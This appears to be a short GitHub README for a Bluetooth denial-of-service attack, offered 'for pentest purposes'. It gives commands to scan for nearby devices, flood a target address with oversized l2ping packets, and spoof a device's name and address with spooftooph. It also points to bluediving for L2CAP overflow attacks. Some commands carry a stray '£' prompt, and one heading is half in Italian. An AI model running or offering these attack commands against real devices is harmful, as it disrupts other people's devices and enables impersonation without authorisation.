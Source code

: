 # Bluetooth Denial-of-Service (DoS) attack

![image](https://github.com/user-attachments/assets/6ab90148-eea2-45bc-8724-23fd989ec4a9)


Script for conducting DOS-attacks on Bluetooth devices for pentest purposes.

##   Install the tools
For a DoS attack over Bluetooth, you can use tools like:

l2ping (already included in bluez)

spooftooph (for spoofing and spam)

bluediving (for specific attacks like L2CAP overflow)

## 1.comands 
```shell
$ sudo apt update
£ sudo apt install bluez blueranger
```

## 2. Activate and check the Bluetooth adapter

```shell
$ sudo systemctl start bluetooth
£ sudo hciconfig hci0 up
£ hciconfig hci0
```

## 3.Bluetooth DoS con l2ping (inondazione di ping)

```shell
$ sudo hcitool scan
```
Flood (continuous ping):
```shell
$ sudo l2ping -i hci0 -s 600 -f XX:XX:XX:XX:XX:XX
```

## More advanced attacks (with Bluediving)

```shell
$ sudo apt install bluediving
```

## Spoofing identity (with spooftooph)

```shell
$ sudo apt install spooftooph
```
for example
```shell
$ sudo spooftooph -i hci0 -n "Insert your device" -a XX:XX:XX:XX:XX:XX
```
